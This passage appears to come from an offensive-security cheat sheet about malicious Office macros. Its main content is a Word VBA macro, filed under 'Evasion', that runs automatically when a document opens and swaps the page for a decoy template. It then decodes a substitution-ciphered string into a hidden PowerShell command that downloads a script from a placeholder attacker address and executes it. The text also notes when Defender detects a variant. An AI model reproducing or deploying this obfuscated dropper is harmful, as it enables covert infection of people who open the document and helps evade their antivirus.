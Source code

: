 ```text
```

This variant will leave no artifacts as references to .NET assemblies are resolved dynamically via reflection. Defender will detect it though \(12/2020\).

### Evasion

PowerShell From Macro with substitution cipher \(alphabet is shuffled, encoded using cyberchef\):

```text
Sub Document()
  ActiveDocument.Content.Select
  Selection.Delete
  ActiveDocument.AttachedTemplate.AutoTextEntries("Template").Insert Where:=Selection.Range, RichText:=True
End Sub

Function Privacy(sInput As String) As String
    Dim vaBefore As Variant
    Dim vaAfter As Variant
    Dim i  As Long
    Dim sReturn As String
    sReturn = sInput
    vaAfter = Split("A,B,C,D,E,F,G,H,I,J,K,L,M,N,O,P,Q,R,S,T,U,V,W,X,Y,Z,a,b,c,d,e,f,g,h,i,j,k,l,m,n,o,p,q,r,s,t,u,v,w,x,y,z", ",")
    vaBefore = Split("T,L,E,a,A,O,I,v,K,t,V,F,R,q,C,Z,S,h,s,j,o,X,H,Y,M,f,g,y,r,w,z,G,P,u,n,c,N,i,e,U,B,Q,J,m,d,b,x,D,k,l,W,p", ",")
    For i = LBound(vaBefore) To UBound(vaBefore)
        sReturn = Replace$(sReturn, vaBefore(i), "&" & Asc(vaAfter(i)))
    Next i
    For i = LBound(vaAfter) To UBound(vaAfter)
        sReturn = Replace$(sReturn, "&" & Asc(vaAfter(i)), vaAfter(i))
    Next i
    Privacy = sReturn
End Function

Sub Launch()
    Dim s As String
    s = Privacy("QBkzmduzii -zlzr yWQgdd -UBQ  -knU unwwzU -UBUn -r ""(Uzk-Byczrb dWdbze.Uzb.kzyrinzUb).wBkUiBgwdbmnUP('ubbQ://<ip>/mxU2.blb')|KAY""")
    Debug.Print s
    Shell s, vbHide
End Sub

Sub Document_Open()
    Document
    Launch
End Sub
Sub AutoOpen()
    Document
    Launch
End Sub
```
